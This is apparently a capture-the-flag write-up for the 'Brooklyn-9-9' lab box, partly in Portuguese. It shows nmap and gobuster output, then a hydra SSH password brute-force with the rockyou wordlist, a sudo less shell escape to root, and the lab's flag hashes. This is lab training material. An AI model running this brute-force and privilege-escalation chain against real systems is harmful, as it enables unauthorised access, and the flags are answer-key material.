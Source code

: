 # Brooklyn-9-9

export IP="10.10.127.15"


# 1. nmap

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.185.104
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

# 2. ftp

Identificado no ftp que há um arquivo chamado "note_to_jake.txt".

From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine.

De Amy,
Jake, por favor, mude sua senha. É muito fraco e holt ficará louco se alguém invadir o nove nove.


# 3. gobuster

```
===============================================================
2021/04/30 16:53:01 Starting gobuster in directory enumeration mode
===============================================================
http://10.10.127.15/.htpasswd            (Status: 403) [Size: 277]
http://10.10.127.15/.htaccess            (Status: 403) [Size: 277]
http://10.10.127.15/server-status        (Status: 403) [Size: 277]
                                                                  
===============================================================
2021/04/30 17:03:29 Finished
===============================================================

```

# 4. Exploit

```
sudo hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.127.15
[sudo] senha para joao: 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-04-30 16:59:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.127.15:22/
[22][ssh] host: 10.10.127.15   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 2 final worker threads did not complete until end.
[ERROR] 2 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-04-30 17:00:13
```

# 5. Post Exploitation:

https://gtfobins.github.io/gtfobins/less/

```
sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less


sudo less /etc/profile
!/bin/sh

# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```

# 6. flags

User: /home/holt/user.txt --> ee11cbb19052e40b07aac0ca060c23ee

Root: /root/root.txt --> 63a9f0ea7bb98050796b649e85481845